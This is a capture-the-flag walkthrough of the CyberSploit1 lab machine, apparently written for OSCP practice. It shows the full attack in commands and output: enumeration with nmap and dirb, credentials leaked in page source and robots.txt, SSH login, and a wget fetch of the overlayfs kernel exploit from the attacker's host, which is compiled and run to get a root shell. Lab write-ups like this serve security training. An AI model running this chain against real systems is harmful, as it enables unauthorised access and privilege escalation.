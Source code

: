 ```yaml
---
title : "CyberSploit1- Walkthrough"
date : 21-10-2024 04:00:00
tags : [Offsec-Play, OSCP]
---
```


## Summary

This machine is exploited by disclosure of a user name and a very obscure password. It is escalated via a local Linux kernel exploit.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```bash
kali@kali:~$ sudo nmap 192.168.120.216
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 11:36 EDT
Nmap scan report for 192.168.120.216
Host is up (0.036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Username Disclosure

If we look at the source code of the default web page on port 80 of our target we will see the following commented-out line:

```bash
kali@kali:~$ curl http://192.168.120.216
<!doctype html>
<html lang="en">
...
<!-------------username:itsskv--------------------->
</body>
...
```

This leaks the username `itsskv`.

### Password Disclosure

Running `dirb` with the default wordlist and non-recursive option shows that **robots.txt** is present in the web root:

```bash
kali@kali:~$ dirb http://192.168.120.216 -r
...
---- Scanning URL: http://192.168.120.216/ ----
+ http://192.168.120.216/cgi-bin/ (CODE:403|SIZE:291)
...
+ http://192.168.120.216/robots.txt (CODE:200|SIZE:79)
...
```

Viewing the file, we encounter what looks to be a base64-encoded string:

```bash
kali@kali:~$ curl http://192.168.120.216/robots.txt
Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=
kali@kali:~$
```

We can decode it, revealing the following:

```bash
kali@kali:~$ curl http://192.168.120.216/robots.txt | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53  100    53    0     0    736      0 --:--:-- --:--:-- --:--:--   736
cybersploit{youtube.com/c/cybersploit}
...
```

## Exploitation

### SSH

Although the decoded string (`cybersploit{youtube.com/c/cybersploit}`) seems quite odd, we can try it as the password to the username we have discovered:

```bash
kali@kali:~$ ssh itsskv@192.168.120.216
...
itsskv@192.168.120.216's password: 
...
itsskv@cybersploit-CTF:~$ id
uid=1001(itsskv) gid=1001(itsskv) groups=1001(itsskv)
itsskv@cybersploit-CTF:~$
```

And we successfully authenticate as the user `itsskv`.

## Escalation

### Local Enumeration

One of the first things to enumerate is the kernel version of the target:

```bash
itsskv@cybersploit-CTF:~$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
itsskv@cybersploit-CTF:~$
```

Researching this kernel version, we find that this system is vulnerable to `overlayfs` local privilege escalation exploit (https://www.exploit-db.com/exploits/37292):

```bash
kali@kali:~$ searchsploit "3.13.0"
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Loca | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Loca | linux/local/37293.txt
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Linux Kernel Exploit

We will host the source code file on our attacking machine using a simple Python HTTP server and download it to the target machine.

```bash
kali@kali:~$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.216 - - [03/Sep/2020 11:57:51] "GET /37292.c HTTP/1.1" 200 -
...
```

Downloading the exploit to our target machine:

```bash
itsskv@cybersploit-CTF:~$ cd /tmp/
itsskv@cybersploit-CTF:/tmp$ wget http://192.168.118.3/37292.c
--2020-09-03 21:27:52--  http://192.168.118.3/37292.c
Connecting to 192.168.118.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3861 (3.8K) [text/plain]
Saving to: `37292.c'

100%[=======================================================================>] 3,861       --.-K/s   in 0s      

2020-09-03 21:27:52 (208 MB/s) - `37292.c' saved [3861/3861]

itsskv@cybersploit-CTF:/tmp$
```

Next, we can compile the source code:

```bash
itsskv@cybersploit-CTF:/tmp$ gcc 37292.c -o 37292
itsskv@cybersploit-CTF:/tmp$
```

Finally, we are able to exploit this kernel version and obtain an elevated shell:

```bash
itsskv@cybersploit-CTF:/tmp$ whoami
itsskv
itsskv@cybersploit-CTF:/tmp$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# python -c 'import pty; pty.spawn("/bin/bash")'
root@cybersploit-CTF:/tmp# 
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp#
```
